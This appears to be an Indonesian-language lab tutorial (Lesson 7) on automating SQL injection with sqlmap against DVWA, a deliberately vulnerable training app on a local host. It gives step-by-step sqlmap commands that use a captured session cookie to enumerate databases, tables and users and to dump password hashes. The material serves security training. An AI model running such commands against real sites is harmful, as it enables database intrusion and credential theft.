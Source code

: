 # Lesson 7 - Automate SQL Injection with SqlMap 


## Set DVWA dengan low Security

1. Login pada dvwa
	* username: admin
	* password: password
2. Lalu set Security menjadi low
	* klik "DVWA security"
	* set menjadi *low*

![1 set fedora low](https://user-images.githubusercontent.com/17487644/34214252-7e60bd60-e5d4-11e7-98bf-1cef8db4e81f.png)

## Manual SQL injection
1. pilih "sql injection" pada sidebar

![1 masuk ek sql injection dvwa](https://user-images.githubusercontent.com/17487644/34217302-c13eb264-e5dd-11e7-85c0-7e2f72a1c9b9.png)

2. Buka Tamper data

![2 tamper data](https://user-images.githubusercontent.com/17487644/34217303-c175fd5a-e5dd-11e7-93f4-c94401f5c452.png)

3. lalu masukan 1 pada user id
4. lalu copy get yang kedua pada hasil tamper data, pada data referer-nya

![3 copy referer](https://user-images.githubusercontent.com/17487644/34217305-c1ad2546-e5dd-11e7-8379-962c1d352e2f.png)

5. buka notepad

![4 buka notepad](https://user-images.githubusercontent.com/17487644/34217306-c20c56a6-e5dd-11e7-9f9f-6befa5832a31.png)

6. paste referer

![5 paste referer](https://user-images.githubusercontent.com/17487644/34217307-c243a66a-e5dd-11e7-8c34-dd96fd1be8f2.png)

7. buka hasil tamper data, lalu copy cookies

![6 copy cookies](https://user-images.githubusercontent.com/17487644/34217308-c27a0ffc-e5dd-11e7-858f-6e54d0b8accb.png)

8. paste pada notepad sebelumnya

![7 referer cookies notepad](https://user-images.githubusercontent.com/17487644/34217310-c2b0e4b4-e5dd-11e7-8af6-d7c0e873b525.png)

9. mengecek sqlmap.py:
	* buka terminal
	* pindahkan pada direktori:
		cd pentest/database/sqlmap
	* cek apakah sqlmap.py ada:
		ls -l sqlmap.py

![8 mengecek sqlmap py](https://user-images.githubusercontent.com/17487644/34217311-c2e7d92e-e5dd-11e7-9a5f-86da7fe6f840.png)

10. jalankan sqlmap.py
	1. ./sqlmap.py -u "http://<IP fedora>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=<Cookies>; security=low" -b --current-db --current-user
	2. keep testing? y
	3. skip payload? y

![9 sqlmap command](https://user-images.githubusercontent.com/17487644/34217312-c31f980a-e5dd-11e7-9fc9-0e2dbb3c3aae.png)

![10 continue test and skip payload](https://user-images.githubusercontent.com/17487644/34217315-c35accc2-e5dd-11e7-85db-242a0ad7636b.png)

11. hasil dari sqlmap dapat melihat user yang sedang menggunakan, dan database yang digunakan

![11 current user](https://user-images.githubusercontent.com/17487644/34217318-c43e7724-e5dd-11e7-8a73-28ccaaed7ff9.png)

12. mendapatkan db username dan password, masukan command:
	* ./sqlmap.py -u "http://<IP fedora>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="<Cookies>=lpb5g4uss9kp70p8jccjeks621; security=low" --string="Surname" --users --password

![12 show username](https://user-images.githubusercontent.com/17487644/34217319-c4758ebc-e5dd-11e7-964d-df687d517916.png)

13. hasilnya:

![13 username and password hash](https://user-images.githubusercontent.com/17487644/34217321-c51470c2-e5dd-11e7-8e37-8a45977bbd33.png)

14. mendapat privilege dari user yang telah dipecahkan passwordnya (Aldi_Haxx), masukan command:
	* ./sqlmap.py -u "http://<IP fedora>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=<Cookies>; security=low" -U db_hacker --privileges

![14 lihat privileges aldi](https://user-images.githubusercontent.com/17487644/34217322-c5cca818-e5dd-11e7-8d78-1e0223aa770c.png)

15. dapatkan list nama-nama semua db, masukan command:
	* ./sqlmap.py -u "http://<IP fedora>/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=<Cookies>; security=low" --dbs

![15 lihat semua db yg ada](https://user-images.githubusercontent.com/17487644/34217324-c655b8b0-e5dd-11e7-9153-26d4674a8d4c.png)

16. dapatkan tabel dvwa, masukan command:
	* ./sqlmap.py -u "http://192.168.1.106/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=lpb5g4uss9kp70p8jccjeks621; security=low" -D dvwa --tables

![16 command lihat db dvwa](https://user-images.githubusercontent.com/17487644/34217325-c690be7e-e5dd-11e7-8907-75742d53e976.png)

17. dapatkan isi db dvwa, masukan command:
	* ./sqlmap.py -u "http://192.168.1.106/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=lpb5g4uss9kp70p8jccjeks621; security=low" -D dvwa -T users --columns

![17 tabel dvwa](https://user-images.githubusercontent.com/17487644/34217326-c70cc7bc-e5dd-11e7-81cf-3f609070d27d.png)

18. temukan nama kolom tabel user, masukan command:
	* ./sqlmap.py -u "http://192.168.1.106/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=lpb5g4uss9kp70p8jccjeks621; security=low" -D dvwa -T users --columns

![18 command lihat colom tabel users](https://user-images.githubusercontent.com/17487644/34217327-c74897a6-e5dd-11e7-9a88-486c39ef794c.png)

![19 kolom users](https://user-images.githubusercontent.com/17487644/34217328-c7b34614-e5dd-11e7-9f8f-62546fae7ee9.png)

19. lihat username dan password di tabel user
	* ![20 lihat useername dan password dvwa](https://user-images.githubusercontent.com/17487644/34217329-c7eef4d4-e5dd-11e7-819c-a8acad8143a7.png)

![20 lihat useername dan password dvwa](https://user-images.githubusercontent.com/17487644/34217329-c7eef4d4-e5dd-11e7-819c-a8acad8143a7.png)

![21 hasil username dan password](https://user-images.githubusercontent.com/17487644/34217330-c86dbcb0-e5dd-11e7-8ad3-a644c1b71d6a.png)

## Hasil akhir lesson 7

![22 hasil akhir](https://user-images.githubusercontent.com/17487644/34217331-c92aed1c-e5dd-11e7-81da-4295b47c2bdb.png)